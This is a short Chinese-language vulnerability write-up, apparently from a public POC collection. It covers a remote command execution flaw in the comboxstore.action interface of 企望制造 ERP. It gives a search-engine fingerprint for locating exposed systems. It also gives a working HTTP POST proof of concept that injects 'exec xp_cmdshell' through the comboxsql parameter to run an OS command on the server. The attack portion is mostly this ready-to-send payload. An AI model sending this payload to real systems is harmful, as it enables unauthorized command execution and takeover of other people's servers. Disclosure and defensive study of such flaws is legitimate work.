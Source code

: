 # 企望制造 ERP comboxstore.action 远程命令执行漏洞

## 漏洞描述

企望制造 ERP comboxstore.action接口存在远程命令执行漏洞，攻击者通过漏洞可以获取服务器权限，执行任意命令

## 漏洞影响

<a-checkbox checked>企望制造 ERP </a-checkbox></br>

## 网络测绘

<a-checkbox checked>title="企望制造ERP系统"</a-checkbox></br>

## 漏洞复现

登陆页面

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1691818989927-dac8d740-682d-400c-a5c9-4c3cc5d53304.png)

验证POC

```php
POST /mainFunctions/comboxstore.action HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Host: 

comboxsql=exec%20xp_cmdshell%20'type%20C:\Windows\Win.ini'
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1691819017786-426f8cd5-38b7-4c1c-91de-912c1b5a68fb.png)